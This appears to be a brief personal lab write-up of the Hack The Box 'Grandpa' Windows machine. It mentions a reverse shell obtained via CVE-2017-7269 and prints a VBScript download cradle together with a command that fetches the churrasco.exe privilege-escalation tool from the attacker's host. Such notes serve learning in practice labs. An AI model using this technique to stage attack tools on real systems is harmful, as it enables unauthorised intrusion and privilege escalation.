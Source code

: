 # Grandpa

Grandpa

Sunday, 6 February 2022

3:49 pm

&#x20;

This is a Windows machine.

The Target IP is 10.10.10.14.

My IP is 10.10.16.5.

&#x20;

This box is meant to be somewhat the same as the Granny box, and I'm gonna use it as practice.

&#x20;

Since it's the similar to the Granny box, the same exploit works.

&#x20;

I got a reverse shell through the use of CVE-2017-7269. This gives me a start to stuff.

&#x20;

!\[\[18\_Grandpa\_image001.png]]

&#x20;

!\[\[18\_Grandpa\_image002.png]]

&#x20;

This gives me some room to work with now. Nmap scan shows the same things as per the other exploit.

&#x20;

This is a useful script that I'll keep here.

&#x20;

echo strUrl = WScript.Arguments.Item(0) > wget.vbs echo StrFile = WScript.Arguments.Item(1) >> wget.vbs echo Const HTTPREQUEST\_PROXYSETTING\_DEFAULT = 0 >> wget.vbs echo Const HTTPREQUEST\_PROXYSETTING\_PRECONFIG = 0 >> wget.vbs echo Const HTTPREQUEST\_PROXYSETTING\_DIRECT = 1 >> wget.vbs echo Const HTTPREQUEST\_PROXYSETTING\_PROXY = 2 >> wget.vbs echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs echo Err.Clear >> wget.vbs echo Set http = Nothing >> wget.vbs echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs echo http.Open "GET", strURL, False >> wget.vbs echo http.Send >> wget.vbs echo varByteArray = http.ResponseBody >> wget.vbs echo Set http = Nothing >> wget.vbs echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs echo strData = "" >> wget.vbs echo strBuffer = "" >> wget.vbs echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs echo Next >> wget.vbs echo ts.Close >> wget.vbs

&#x20;

cscript /nologo wget.vbs [http://10.10.14.147/churrasco.exe](http://10.10.14.147/churrasco.exe) churrasco.exe

&#x20;

VbScript can be used in place of any other types of scripts.

&#x20;
